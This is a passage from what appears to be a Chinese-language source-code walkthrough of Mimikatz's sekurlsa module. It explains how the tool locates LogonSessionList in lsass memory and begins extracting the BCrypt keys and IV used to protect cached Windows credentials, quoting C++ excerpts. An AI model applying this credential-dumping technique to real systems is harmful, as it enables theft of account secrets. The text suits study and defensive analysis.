 该函数首先划分出 lsasrv.dll 所属的内存空间从而确定要搜索的范围大小 `limite`，然后遍历 `limite` 范围的内存，通过 `RtlEqualMemory()` 函数匹配出与特征码相同的内存块，最终确定特征码的地址。得到的特征码地址被赋值给 `Search-&gt;result`，回到 `kuhl_m_sekurlsa_utils_search_generic()` 函数中就是 `sMemory.result`。

接着，回到 `kuhl_m_sekurlsa_utils_search_generic()` 函数中开始定位 `LogonSessionList` 变量。首先从 `currentReference` 中获取第一个偏移量加到特征码地址上，如下所示。

```c++
aLsassMemory.address = (PBYTE) sMemory.result + currentReference-&gt;Offsets.off0;
```

这里获得的是 `lea rcx` 指令中保存 `LogonSessionList` 变量偏移量的四个字节序列的地址。然后通过 `kull_m_memory_copy()` 函数获取这四个字节序列的值到 `offset` 中，此时 `offset` 中保存的是 `LogonSessionList` 变量真正的偏移量。将 `sizeof(LONG)` 和 `offset` 加到 `rip` 指向的地址上即可得到 `LogonSessionList` 变量的地址，如下所示。

```c++
aLocalMemory.address = &amp;offset;
if(pLib-&gt;isInit = kull_m_memory_copy(&amp;aLocalMemory, &amp;aLsassMemory, sizeof(LONG)))
·*genericPtr = ((PBYTE) aLsassMemory.address + sizeof(LONG) + offset);
```

同理可以获得 `LogonSessionListCount` 变量的地址。

拿到 `LogonSessionList` 和 `LogonSessionListCount` 这两个变量的地址后，返回 `kuhl_m_sekurlsa_acquireLSA()` 函数，将继续调用 `lsassLocalHelper-&gt;AcquireKeys` 所指的函数。在这里是 `kuhl_m_sekurlsa_nt6_acquireKeys()` 函数，该函数用于获取加密用户凭据的密钥。

```c++
if(kuhl_m_sekurlsa_utils_search(&amp;cLsass, &amp;kuhl_m_sekurlsa_msv_package.Module))
{
    // 继续调用 kuhl_m_sekurlsa_nt6_acquireKeys 函数
    status = lsassLocalHelper-&gt;AcquireKeys(&amp;cLsass, &amp;lsassPackages[0]-&gt;Module.Informations);
    if(!NT_SUCCESS(status))
        PRINT_ERROR(L"Key import\n");
}
```

Extract BCrypt Key &amp; Vector
-------------------------------

跟进 `kuhl_m_sekurlsa_nt6_acquireKeys()` 函数：

- sekurlsa\\crypto\\kuhl\_m\_sekurlsa\_nt6.c

```c++
KIWI_BCRYPT_GEN_KEY k3Des, kAes;
BYTE InitializationVector[16];
// ......
NTSTATUS kuhl_m_sekurlsa_nt6_acquireKeys(PKUHL_M_SEKURLSA_CONTEXT cLsass, PKULL_M_PROCESS_VERY_BASIC_MODULE_INFORMATION lsassLsaSrvModule)
{
    NTSTATUS status = STATUS_NOT_FOUND;
    KULL_M_MEMORY_ADDRESS aLsassMemory = {NULL, cLsass-&gt;hLsassMem}, aLocalMemory = {NULL, &amp;KULL_M_MEMORY_GLOBAL_OWN_HANDLE};
    KULL_M_MEMORY_SEARCH sMemory = {{{lsassLsaSrvModule-&gt;DllBase.address, cLsass-&gt;hLsassMem}, lsassLsaSrvModule-&gt;SizeOfImage}, NULL};
#if defined(_M_X64)
    LONG offset64;
#endif
    PKULL_M_PATCH_GENERIC currentReference;
    if(currentReference = kull_m_patch_getGenericFromBuild(PTRN_WIN8_LsaInitializeProtectedMemory_KeyRef, ARRAYSIZE(PTRN_WIN8_LsaInitializeProtectedMemory_KeyRef), cLsass-&gt;osContext.BuildNumber))
    {
        aLocalMemory.address = currentReference-&gt;Search.Pattern;
        // 根据特征码获取 LsaInitializeProtectedMemory_KeyRef 的地址
        if(kull_m_memory_search(&amp;aLocalMemory, currentReference-&gt;Search.Length, &amp;sMemory, FALSE))
        {
            // 特征码的地址加上偏移量 off0 到达保存 InitializationVector 偏移量的那四个字节的地址
```